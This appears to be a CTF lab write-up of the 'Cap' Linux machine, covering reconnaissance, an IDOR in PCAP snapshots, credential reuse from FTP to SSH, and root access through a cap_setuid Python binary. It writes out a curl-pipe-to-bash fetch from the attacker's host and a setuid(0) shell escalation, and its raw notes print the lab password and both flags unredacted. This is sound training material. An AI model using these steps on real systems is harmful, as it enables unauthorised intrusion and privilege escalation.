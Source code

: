 # CAP Room

### Challenge Rating: Easy

**Challenge:**  
- Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 
 
- Target is a security dashboard web app that includes features like security snapshots (PCAPs), IP and network status, and user activity. The machine tests reconnaissance, web enumeration, IDOR (Insecure Direct Object Reference), network traffic analysis (PCAP/FTP), credential reuse, and Linux privilege escalation via binary capabilities.

**Skills:**  
- Network scanning (`nmap`, `rustscan`)  
- Web enumeration (`feroxbuster`, `dirb`)  
- Source code / HTML inspection (viewing page source, `robots.txt`)  
- Identifying and abusing IDORs (Insecure Direct Object References)  
- PCAP analysis (Wireshark) to extract credentials from application snapshots  
- Credential reuse (FTP → SSH)  
- Local enumeration and privilege escalation with `linPEAS`  
- Exploiting file capabilities (cap_setuid) using Python to gain root

**Notes:**  
- Target IP: `[REDACTED]`  
- Initial scans: `nmap` and `rustscan` → ports open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**.  
  - FTP: `vsftpd 3.0.3`  
  - SSH: `OpenSSH 8.2p1`  
  - Webserver: Gunicorn (possible HTTP Request Smuggling via Transfer-Encoding headers — noted but not exploited here)

- Visited the web app as user *Nathan*. Dashboard shows security events, failed logins, and port scans.  
- Hamburger menu has: Security Snapshot (5s PCAP + analysis), IP Config, Network Status.  
- Viewing page source revealed references to people named **Rashed** and **Ratul Hamba**; `robots.txt` gave nothing useful.

- Used `feroxbuster` / `dirb` to enumerate paths (found nothing new beyond known endpoints).  
- Discovered an **IDOR** in Security Snapshot URLs: security snapshot redirect uses `/[something]/[id]`.  
  - Question 2 answer: `data` (the `[something]` in the path is `data`)  
  - By changing the ID you can view other users' snapshots (Question 3: **yes** — can iterate IDs 0..10)

- Inspecting PCAP ID 40 in Wireshark (source `[REDACTED]` → dest `[REDACTED]`) revealed an FTP credential:  
  - `Buck3tH4TF0RM3!` — used to log into SSH as Nathan.

**Answers to challenge questions:**  
1. How many ports are open? **3**  
2. After running a "Security Snapshot", the redirect path uses what string for [something]? **`data`**  
3. Are you able to see other users' scans? **Yes** (IDOR; can iterate 0..10)  
4. What is the ID of the PCAP file that contains sensitive data? **0**  
5. Which application layer protocol in the pcap file can the sensitive data be found in? **FTP**  
6. We've collected Nathan's FTP password. On what other service does this password work? **SSH**  
7. user flag (from Nathan's account): **`[REDACTED]`**  
8. What is the full path to the binary on this machine that has special capabilities that can be abused to obtain root privileges? **`/usr/bin/python3.8`**

**Privilege escalation (linPEAS & capabilities):**  
- Setup and run `linpeas` by hosting it locally and `curl`ing it to the target:  
  ```bash
  # on attack box
  sudo python3 -m http.server 80

  # on target
  curl http://<OurIP>/linpeas.sh | bash
  ```
- linPEAS highlighted a binary with capabilities: `/usr/bin/python3.8` has `cap_setuid,cap_net_bind_service+eip`.  
  - `cap_setuid` allows changing UID (can set to 0/root).  
  - `cap_net_bind_service` allows binding privileged ports (<1024).  
- Abuse: start the python interpreter and escalate UID:
  ```python
  import os
  os.setuid(0)
  os.system("/bin/bash")
  ```
  Result: spawned shell as **root**.

**Root flag:**  
- Root flag found: **`[REDACTED]`**

**Takeaways:**  
- IDORs are low-hanging fruit — always test incrementing IDs and object identifiers.  
- PCAP snapshots in web apps are gold for leaking credentials — always inspect network captures (Wireshark).  
- Credential reuse across services (FTP → SSH) is a common real-world misconfiguration to abuse.  
- linPEAS saves time but always manually verify and understand findings (capabilities, SUIDs, cron jobs).  
- File capabilities (`cap_setuid`) can be as dangerous as setuid binaries if abused — never assume only SUIDs matter.

**Commands / tools referenced:**  
```bash
nmap -sC -sV -oN nmap_initial 10.10.10.245
rustscan -a 10.10.10.245 -r 1-65535
feroxbuster -u http://10.10.10.245 -w /usr/share/wordlists/...
dirb http://10.10.10.245 /usr/share/wordlists/...
ssh nathan@10.10.10.245 -p 22
sudo python3 -m http.server 80
curl http://<OurIP>/linpeas.sh | bash
# escalate inside python:
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
## Original Notes:

<details>
ip:  10.10.10.245

we run nmap and rustscan

while they run we try the website. The site is a seucirty dashboard, logged in as a man named Nathan, on here we see security events, failed login attempts, and port scans (unique IPs).

the hamburger menu has a securit snapshot (5 second PCAP + anaysis), ip config, and network status

when we view the main page source, we see that they are using an outdate browser, and to update bia browsehappy.com

robots.txt did nothing

rustscan and nmap says that ports 22/tcp, 21/tcp and 80/tcp are open

port 21 is open ftp with vsftpd 3.0.3
port 22 ssh openSSH 8.2p1

couldn't find an exploit I want to use, the source didn't seem to have any info about passwords
we do see in the source people named Rashed and Ratul Hamba

using dirb to find urls / used feroxbuster too

the website is Gunicorn, looking for exploit. explot-db doens't have anything but myF5 does, it states:
Gunicorn  fails to properly validate Transfer-Encoding headers, leading to HTTP  Request Smuggling (HRS) vulnerabilities. By crafting requests with  conflicting Transfer-Encoding headers, attackers can bypass security  restrictions and access restricted endpoints. This issue is due to  Gunicorn's handling of Transfer-Encoding headers, where it incorrectly  processes requests with multiple, conflicting Transfer-Encoding headers,  treating them as chunked regardless of the final encoding specified.  This vulnerability allows for a range of attacks including cache  poisoning, session manipulation, and data exposure.</span></span></body></html>

so, let's see what we cna do here.bv

feroxbuster found what we already knew
so did dirb

i forgot, to look at the damn questions.

Question 1) how many ports are open : 3

2) After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]? :: answer = ‘data’

3) are you able to see other users scans?  yes, we can edit the url and go to data 0, 1, etc, up to our latest of 10

when we look at it in wireshark we see that no.40 with source ip of 192.168.196.1 and destination of 192.168.196.16, we see a password of "Buck3tH4TF0RM3!"
this allowed us to log into ssh
in the ssh, user.txt is a flag of “35eaae15f1ef0f055e3b983eae63c5aa”
4) What is the ID of the PCAP file that contains sensative data?  0

we have a IDOR: Insecure Direct Object Reference (IDOR) vulnerability is a type of broken access control where an application uses user-supplied input to directly access internal objects (like database records or files) without performing sufficient access control or authorization checks. Attackers can manipulate these direct references, such as changing a user ID or file name in a URL


5)  Which application layer protocol in the pcap file can the sensetive data be found in? FTP
it's ftp because we can look at hte wireshark protocol and see it's under ftp

6)We've managed to collect nathan's FTP password. On what other service does this password work? ssh

7) user flag

8) What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

out next task involves using linpeas, so to use linpeas we need to use the following script : 

we go to our linpeas dir, and run "sudo python3 -m http.server 80" - this opens the server for us to then use the command we need to run linpeas on the target machine

curl http://<OurIP>/linpeas.sh | bash

linpeas is said to be one of thsoe thigns that makes you look smarter than you are, so we need to really understand what it does. First off, linpeas is going to look for weaknesses, misconfigurations, etc. a defintion i found is:

linPEAS (part of the PEASS-ng suite) is an automated Linux enumeration script that searches a host for common misconfigurations, weak permissions, credentials, and other local privilege-escalation paths. It doesn’t “exploit” anything by default — it surfaces potential vectors (SUIDs, writable files, misconfigured services, cron jobs, weak sudo rules, exposed secrets, docker sockets, etc.) so you can investigate manually. Source & project page: PEASS-ng / linPEAS. 

bang! we're in. Linpeas is running. we used curl to get the info from our pc, and piped it into bash using | bash to run it

so , looking through the linpeas, i see we have Pkexec open, maybe try that, it allows us to run a command as anotehr user, maybe root?

besides that we have files with capabilites, and we see that python3.8 = cap_setuid, cap_net_bind_service+eip. It's highlighted yellow, so we know it's odd. doing some digging we see that python normally runs files without capabilities, and a pythong interpreter with cap_setuid + effective can be abused by local users to escalate privileges or bypass restrictions

don't try using pkexec and failing to log in, it reports the failure. fun times

we learned that the python program can escalate privilegas because it as authoritity to use sudo. the python binary has been granted special capabiulites. this will allow malicious scripts to be ran that normally require root. cap_setuid is a powerful capabiltiy that allows ap rocess to make arbitary chagnes to hte User ID UID including chaning a user to root (WOOT WOOT! Our way in!). an acceter could run a simple python script containg os.setuid(0) to gain full root
cap_net_bind_service+eip grants the ability to bind prilveged ports (any below 1024). the suffix of eip indicates that a capaility is et to effectivce, inherited and permitted. Thus allowing python web server to run on sntadard porst like 80 or 443. 
running /usr/bin/python3.8 we open python. Inside python we use:
import os
os.setuid(0)
os.system("/bin/bash")

import improts the os capabilites
we set our id
os.system("/bin/bash") opens a new shell as the id we made, so root!!!


9) Submit the flag located in root's home directory.  -- /usr/bin/python3.8
10) Submit the flag located in root's home directory. -- found teh root flag under root!
“f77870641aea641726ee29ee9879a5e4”
</details>
